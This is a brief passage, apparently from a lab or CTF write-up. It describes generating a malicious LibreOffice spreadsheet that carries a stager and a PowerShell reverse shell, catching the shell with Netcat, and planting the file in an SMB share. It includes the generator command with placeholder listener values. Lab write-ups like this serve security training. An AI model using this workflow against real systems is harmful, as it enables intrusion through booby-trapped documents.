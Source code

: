 **Build payload:**

Instead of manually preparing a LibreOffice `.ods` file for social engineering, my friend created a script to automatically craft a `malicious.ods` file. Once the file is generated, we can host it using an HTTP server and set up Netcat with `rlwrap` to listen on port 666. Then, we use `smbclient` to access the target IP, where a `malware_dropbox` directory is available for uploading the file. 

```bash
python3 re-payload.py --host <listener_ip> --port <listener_port>
```

We will get 2 files when payload finish:

- `malious.ods`: stager script
- `shell.ps1`: reverse shell script

![image.png](image%2010.png)

![image.png](image%2011.png)
